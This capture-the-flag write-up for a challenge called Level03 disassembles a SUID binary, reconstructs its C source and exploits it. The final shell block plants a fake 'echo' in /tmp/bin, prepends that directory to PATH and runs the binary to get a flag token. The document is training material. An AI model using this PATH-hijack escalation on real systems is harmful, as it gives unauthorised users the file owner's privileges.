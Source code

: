 # Level03

<!-- not here -->
<!-- ## HACKING THE ART OF EXPLOITATION
[the art of exploitation](https://repo.zenk-security.com/Magazine%20E-book/Hacking-%20The%20Art%20of%20Exploitation%20(2nd%20ed.%202008)%20-%20Erickson.pdf) -->

```bash
ls -la
# ouput: finally there is a binary file here, we gonna do some exploit 🤩
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
# run strings level03, you can use gdb or objdump
```
This file has a strange permissions the one that we don't see often is `s` SUID<br/>
SUID or Set Owner User ID is a permission bit flag that applies to executables.<br/>
SUID allows an alternate user to run an executable with the same permissions<br/>
as the owner of the file instead of the permissions of the alternate user.<br/>

Using objdump<br/>
```bash
# d, --disassemble Display assembler contents of executable sections
objdump -d level03 -M intel | grep -A 26 "main>:"
# Output:
080484a4 <main>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 e4 f0             	and    esp,0xfffffff0
 80484aa:	83 ec 20             	sub    esp,0x20
 80484ad:	e8 ee fe ff ff       	call   80483a0 <getegid@plt>
 80484b2:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 80484b6:	e8 d5 fe ff ff       	call   8048390 <geteuid@plt>
 80484bb:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax
 80484bf:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484c3:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484c7:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484cb:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80484cf:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484d3:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d6:	e8 05 ff ff ff       	call   80483e0 <setresgid@plt>
 80484db:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484df:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484e3:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484e7:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80484eb:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484ef:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f2:	e8 89 fe ff ff       	call   8048380 <setresuid@plt>
 80484f7:	c7 04 24 e0 85 04 08 	mov    DWORD PTR [esp],0x80485e0
 80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
 8048503:	c9                   	leave
 8048504:	c3                   	ret
```

As you can see, you can translate this assembly code to c code source<br/>

## source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");

```
the parts that are matter to us are the call to getegid, geteuid, setresgid, setresuid and system
the echo command runs without the full path, we can override this behavior by using our echo command<br/>
this is part `/usr/bin/env echo` is an instruction to set the PATH (as well as all the other NAME+VALUE pairs), and then run echo using the first directory in the PATH that contains the echo executable.<br/>

```bash
mkdir -p /tmp/bin
echo "getflag" > /tmp/bin/echo
chmod 777 /tmp/bin/echo
export PATH=/tmp/bin:$PATH
./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```